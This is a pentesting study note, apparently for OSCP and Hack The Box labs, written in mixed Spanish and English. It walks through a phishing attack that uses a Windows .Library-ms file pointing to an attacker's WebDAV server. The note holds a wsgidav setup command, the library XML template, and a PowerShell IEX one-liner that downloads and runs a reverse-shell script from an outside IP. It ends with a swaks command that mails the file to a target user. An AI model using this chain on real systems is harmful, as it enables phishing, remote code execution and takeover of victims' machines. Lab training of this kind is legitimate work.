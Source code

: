
## DESCRIPTION

Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a **.Library-ms** file extension and can be executed by double-clicking them in Windows Explorer.

Entonces si podemos enviarlo a un usuario y este hace click, entonces se conectarán a nuestro servidor y descargara y ejecutará lo que allí haya. IMPORTANTE: necesitamos *WebDAV*.

#### Mas información
* https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/the-content-library


## EXPLOITATION

Path attack for this example:  jim open te attach library -> the library call your webdav -> download and execute your .lnk with your payload

1.  LEVANTAR NUESTRO SERVIDOR WEBDAV: para realizar esta tarea utlizaremos la herramienta wsgidav: https://wsgidav.readthedocs.io/en/latest/

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

**!!NOTA IMPORTANTE!!** En la carpeta /web/dav/ debemos de meter nuestro payload, en este caso nuesto .lnk

![[Pasted image 20230427134358.png]]

2.  CREAMOS LIBRERÍA DE WINDOWS: Tenemos que crear nuestra librería de Windows, se puede usar Visual Studio. Pero en nuestro caso hemos usado esta plantilla:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.166</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

![[Pasted image 20230427134554.png]]

Esta librería descarga lo que hay en esa IP (Servidor WebDAV), no funciona un servidor Web normal. (nombre config.Library-ms )

3. PAYLOAD: Creamos nuestro payload como acceso directo .lnk.

El payload de ejemplo que se va a inyectar es:

```
#Por ejemplo
cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.10:8080/Invoke-PowerShellTcp.ps1')"
```

Accedemos a la máquina Windows, click derecho y nuevo acceso directo:

![[Pasted image 20230427181325.png]]


![[Pasted image 20230427135217.png]]

3. Movemos nuestro payload .lnk a la ruta de WebDav, en este caso a `/home/kali/webdav/`

4. Preparamos nuestro Invoke-PowerShellTcp.ps1 [[POWERSHELL REVERSESHELL]]

5. Nos ponemos a la escucha

6. Enviamos nuestro PHISHING por SMS: utilizamos la herramienta swaks, y adjuntamos nuestra librería.

```
# Ejemplo
swaks --to jim@relia.com --from maildmz@relia.com --header "Subject: file you asked for? http://192.168.119.166:4455" --body "Here you go" --server 192.168.166.189 --attach @config.Library-ms --suppress-data -ap

```


## MACHINES

* Hack The Box: 
* OSCP LABS: Relia (.14)

